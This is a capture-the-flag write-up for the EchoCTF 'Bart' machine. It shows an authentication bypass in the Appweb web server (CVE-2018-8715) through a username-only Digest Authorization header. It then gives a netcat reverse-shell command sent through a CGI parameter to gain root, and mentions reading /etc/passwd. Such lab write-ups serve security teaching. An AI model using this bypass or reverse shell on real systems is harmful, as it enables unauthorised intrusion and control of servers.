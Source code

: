 <pre class="">    |\/\  ,.
    /   `' |,-,
   /         /_
 _/            /
(.-,--.       /
/o/  o \     /
\_\    /   _/     Bart.echocity-f.com
(__`--'    _)     Author: HitmanAlharbi
 /         |      Team: Blackfoxs
(_____,'    \  
   \_       _\
     `._..-'
</pre>

<br>

<b> [ BART wrtieup for EchoCTF ] </b>

<br> 

The target machine have one "open port" (8080) 

This port have a service called "Appweb Web Server"

Let's open the URL with port 8080 in the browser because it's web server

When you open the URL it will ask you a password "HTTP Authorization"

We tried default credentials like "admin:admin" but not works

We tried too to brute force the password and username but now works

Okay now we decide to search about <b>"Appweb Web Server" </b>vulnerabilities

We have four CVEs but only one was interesting <b> "CVE-2018-8715"  </b>

https://github.com/embedthis/appweb/issues/610

The CVE Vulnerability Details said that to bypass the the authentication

You should send the Authorization header with username only without password

For example: <b> "Authorization: Digest username=admin" </b>

We test it and really we bypassed the authorization successfully

Now take your flag from the source code and you will discover the main page was fake

We tried to fuzz the URLs but the web server blocked our attempts 

But we know the EchoCTF makers love to use the word <b>"ETSCTF"</b>

Because of that we tried many attempts and we find there is a page called <b>ETSCTF.cgi</b>

The Appweb server can run .cgi files without any problem 

Now this page runs the command "printenv" , first take the two flags from page

The last step to get RCE , try to send a POST request with the parameter "ETSCTF" has the command

For example: <b> "ETSCTF=nc -e /bin/bash target-ip port" </b>

Now you can execute commands with root permissions 

Take all the flags from server like /etc/passwd and /root/ETSCTF and use grep always.

